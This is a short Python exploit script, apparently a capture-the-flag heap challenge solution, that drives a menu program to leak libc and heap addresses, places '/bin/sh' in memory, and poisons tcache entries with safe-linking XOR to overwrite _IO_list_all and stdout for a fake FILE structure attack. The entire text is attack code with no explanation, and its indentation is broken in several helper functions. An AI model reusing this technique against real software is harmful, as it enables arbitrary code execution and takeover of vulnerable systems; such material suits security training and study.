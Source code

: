 ```python

def add(size, content):
    sla(">", "1")
sla(":", str(size))
sla(":", content)

def free(idx):
    sla(">", "2")
sla(":", str(idx))

def view(idx):
    sla(">", "4")
sla(":", str(idx))

def edit(idx, content):
    sla(">", "3")
sla(":", str(idx))
sla(":", content)

for i in range(8):
    add(0x500, "A"*4)
add(0x10, "A"*8)

for i in range(8):
    free(i)

add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A"*8)
add(0x10, "A")
add(0x200, "A"*8)
add(0x300, "A"*8)

view(5)
ru("A"*8)
libc=u64(r(8))-0x203b00
print hex(libc)

view(6)
ru("A"*8)
heap=u64(r(8))-0x1200
print hex(heap)
edit(6, "/bin/sh\0")
add(-1, "A"*8) #7
add(0x101, "A"*8)
add(0x101, "A"*8)
free(10)
free(9)

stdout=libc+0x2045c0
io_list_all=libc+0x2044c0
target=(io_list_all)^(heap+0x1060)>>12
target1=(stdout)^(heap+0x1080)>>12

p="A"*0x10+p64(0)+p64(0x21)+p64(target)
p+=p64(0)+p64(0)+p64(0x111)+p64(target1)

fake_io_addr=heap+0xd20

edit(7, p)
add(0x101, p64(fake_io_addr))

```